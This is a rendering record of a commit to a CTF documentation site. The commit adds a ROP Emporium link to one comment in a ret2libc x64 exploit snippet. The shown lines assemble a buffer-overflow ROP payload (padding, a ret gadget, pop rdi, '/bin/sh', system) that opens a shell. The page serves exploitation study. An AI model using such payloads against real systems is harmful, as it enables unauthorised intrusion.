

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pwn/buffer-overflow/30-ret2libc-x64-aslr.md, in a window 1280 px wide and 900 px high, scrolled down 2806 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
add reference

```diff
--- a/docs/pwn/buffer-overflow/30-ret2libc-x64-aslr.md
+++ b/docs/pwn/buffer-overflow/30-ret2libc-x64-aslr.md
@@ -150,7 +150,7 @@ system   = p64(libc.symbols['system'])
 
 # Send the second ROP with the right offsets, system('/bin/sh')
 payload = b"A" * PADDING
-payload += ret # stack alignment
+payload += ret # stack alignment, The MOVAPS issue on https://ropemporium.com/guide.html
 payload += pop_rdi
 payload += bin_sh
 payload += system
```
